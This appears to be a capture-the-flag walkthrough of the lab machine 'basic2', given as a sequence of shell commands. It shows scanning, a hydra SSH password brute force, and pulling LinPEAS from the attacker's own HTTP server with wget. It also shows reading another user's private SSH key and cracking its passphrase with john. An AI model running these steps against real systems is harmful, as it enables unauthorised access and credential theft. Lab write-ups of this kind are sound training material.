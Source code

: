10.10.162.125


## open vpn

```
$ sudo openvpn Desktop/pelapels.ovpn
```

## ping

```
$ ping 10.10.159.226
```


## nmap scan
```
$ sudo nmap -sC -sV 10.10.159.226
```

                                                                                                                                                                                         
## search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

## simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```


# bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```

# login to user through ssh
```
$ ssh jan@10.10.162.125
```

# maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```

# change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

# download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```

# make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

# run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```

# found possible private SSH keys 
/home/kay/ .ssh/id_rsa

# change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

# list files
```
jan@basic2:/home/kay$ ls
```

found pass.bak

# list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```

# change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

# list files
```
jan@basic2:/home/kay/.ssh$ ls
```

# found id_rsa

# cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```

# save ssh key
```
$ mousepad kay_id_rsa
```


# run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

# crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```


# chmod 
```
$ chmod 600 kay_id_rsa
```

# ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```

# list down files
```
kay@basic2:~$ ls
```

# print pass.bak
```
kay@basic2:~$ cat pass.bak
```













